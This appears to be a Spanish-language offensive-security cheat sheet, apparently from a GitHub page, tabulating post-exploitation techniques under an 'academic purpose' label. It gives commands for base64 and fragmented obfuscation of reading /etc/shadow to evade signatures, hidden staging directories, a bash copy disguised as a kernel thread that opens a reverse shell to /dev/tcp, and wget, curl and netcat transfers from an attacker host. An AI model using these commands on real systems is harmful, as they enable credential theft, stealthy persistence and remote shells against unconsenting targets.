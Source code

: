#### Ofuscación de Comandos

| Técnica                      | Comando                              | Propósito Académico                              |
|------------------------------|--------------------------------------|--------------------------------------------------|
| Codificación Base64          | `echo "cat /etc/shadow" | base64`<br/>`echo "Y2F0IC9ldGMvc2hhZG93Cg==" | base64 -d | sh` | Ofuscación de comandos sensibles |
| Fragmentación variables      | `a='cat'; b='/etc/'; c='shadow'; $a $b$c` | Fragmentar comandos para evitar firmas           |
| Timing aleatorio             | `sleep $((RANDOM % 300 + 60)) && /path/to/command` | Introducir delays aleatorios                   |

#### Ocultación de Procesos y Archivos

| Técnica                      | Comando                              | Propósito Académico                              |
|------------------------------|--------------------------------------|--------------------------------------------------|
| Directorios sigilosos        | `mkdir /var/tmp/...`<br/>`mkdir /tmp/.hidden`<br/>`mkdir /dev/shm/.cache` | Almacenamiento sigiloso de herramientas |
| Procesos disfrazados         | `cp /bin/bash /tmp/[kthread]`<br/>`/tmp/[kthread] -c 'bash -i >& /dev/tcp/[IP]/4444 0>&1'` | Disfrazar procesos como del kernel |

---


## 🌐 FASE 5: METODOLOGÍA DE TRANSFERENCIA DE ARCHIVOS

### 5.1 Transferencia desde Atacante hacia Objetivo

| Método                       | Comando Atacante                              | Comando Objetivo                              | Propósito Académico                              |
|------------------------------|-----------------------------------------------|------------------------------------------------|--------------------------------------------------|
| Servidor HTTP Python3       | `python3 -m http.server 8000`                 | `wget http://<IP_atacante>:8000/<archivo>`     | Servir herramientas y exploits                  |
| Servidor HTTP Python2       | `python2 -m SimpleHTTPServer 8000`            | `curl http://<IP_atacante>:8000/<archivo> -o <archivo>` | Compatibilidad con sistemas antiguos           |
| Netcat unidireccional       | `nc -w 3 <IP_objetivo> 1234 < archivo.txt`    | `nc -l -p 1234 > archivo.txt`                  | Transferencia directa sin protocolos complejos  |
| Netcat inverso (objetivo inicia) | `nc -lvnp 1234 < archivo.txt`             | `nc <IP_atacante> 1234 > archivo.txt`          | Transferencia iniciada por el objetivo hacia el atacante |

### 5.2 Transferencia Bidireccional y Avanzada

| Método                       | Comando                              | Propósito Académico                              |
|------------------------------|--------------------------------------|--------------------------------------------------|
| Netcat bidireccional         | `nc -l -p 1234`                      | Establecer canal de comunicación bidireccional  |
| SCP (si SSH disponible)      | `scp archivo.txt user@[IP_objetivo]:/tmp/`    | Transferencia segura sobre SSH                   |
| Base64 encoding             | `base64 archivo.txt` → copiar → `echo "[base64]" | base64 -d > archivo.txt` | Transferencia de archivos pequeños via terminal |

#### Tabla de Flags - Transferencia de Archivos

| Flag | Herramienta | Función Académica                               | Fundamento Técnico                                |
|------|-------------|-------------------------------------------------|---------------------------------------------------|
| `-w` | netcat      | Wait time - timeout de conexión                | Evita conexiones colgadas indefinidamente        |
| `-l` | netcat      | Listen mode - escuchar conexiones entrantes    | Modo servidor para recibir datos                 |
| `-p` | netcat      | Port - especificar puerto de escucha           | Puerto específico para el canal de datos         |
| `-o` | curl        | Output file - guardar en archivo específico    | Especificar destino de descarga                  |

---